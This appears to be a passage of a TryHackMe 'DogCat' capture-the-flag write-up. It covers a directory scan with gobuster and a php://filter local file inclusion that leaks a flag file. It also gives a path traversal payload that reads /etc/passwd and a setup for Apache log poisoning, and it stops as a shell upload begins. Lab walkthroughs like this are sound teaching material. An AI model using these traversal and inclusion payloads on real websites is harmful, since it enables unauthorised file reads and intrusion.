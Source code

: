 Port 80 http is opening.Let's check it :)

# [](#header-2)Web Page

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/2.png)

# [](#header-2)Directory Scan

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/DogCat# gobuster dir -u http://dogcat.thm/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -q -t 45 -x php,html,txt
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/dogs (Status: 301)
/dog.php (Status: 200)
```
we got flag.php

and there is also a parameter, I'm added `?view=flag` but it's only print `Sorry, only dogs or cats are allowed. `
Let use `php://filter/convert.base64-encode/dog/resource=`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/5.png)

we got base64, let's decode it

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/DogCat# echo "PD9waHAKJGZsYWdfMSA9IC***********YXRkb2dfYWI2N2VkZmF9Igo/Pgo=" | base64 -d
<?php
$flag_1 = "THM{Th1s_1s_*******_ab67edfa}"
?>

```

and we got flag1 ,after some enumerating on LFI ,i'm got /etc/passwd with this

`?view=dog/../../../../../../../etc/passwd&ext=`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/6.png)

now we can do log poisoning with LFI, you can read about that here [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

`?view=dog/../../../../../../../var/log/apache2/access.log&ext=`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/7.png)

I'm used burpsuit to upload shell 

Before you intercept , Create python server in your shell folder 
